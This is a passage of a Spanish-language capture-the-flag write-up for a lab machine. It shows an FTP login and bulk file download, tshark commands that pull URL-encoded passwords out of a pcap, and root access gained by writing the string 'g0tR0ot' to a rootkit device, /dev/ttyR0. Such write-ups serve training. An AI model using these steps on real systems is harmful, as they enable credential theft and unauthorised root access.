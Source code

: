 ```bash
ftp 10.10.10.155
Name: ib01ftp
Password: 
```

ya hemos podido entrar en la maquina. Vemos archivos y nos los descargamos a la maquina de atacante

```bash
binary
prompt off
mget *
```

Hay ficheros interesantes como `notes.txt` o `ib01c01.access.log` que nos dan pistas pero nosotros vamos a por el fichero `ib01c01_incident.pcap`

### Investigamos el fichero pcap con TShark {-}

```bash
tshark -r ib01c01_incident.pcap
tshark -r ib01c01_incident.pcap -Y "http.request.method==POST" 2>/dev/null
tshark -r ib01c01_incident.pcap -Y "http.request.method==POST" -Tjson 2>/dev/null
tshark -r ib01c01_incident.pcap -Y "http.request.method==POST" -Tfields -e tcp.payload 2>/dev/null | xxd -ps -r
```

Analizando aqui encontramos passwords que son codeadas en url-encode. Tratamos de conectar con el usuario de estos ficheros `ib01c01` con la 
nueva contraseña y pa dentro. Ya podemos ver el fichero **user.txt**

### Continuacion de la investigacion con Wireshark {-}

Aqui llegamos a una parte bastante complicada de explicar por escrito. Mejor verlo directamente con el video desde el minuto 1:40:45
De echo esta parte explica como encuentra un modulo rootkit en el sistema y explica como tratarla.







## Escalada de privilegios {-}

### Rootear la maquina {-}

La escalada de privilegio aqui se hace utilizando el rootkit.


```bash
ls -l /dev/ttyR0
```

Aqui vemos que el rootkit esta instalado. Continuamos con lo que la web del rootkit nos dice.

```bash
echo "g0tR0ot" > /dev/ttyR0; id
```
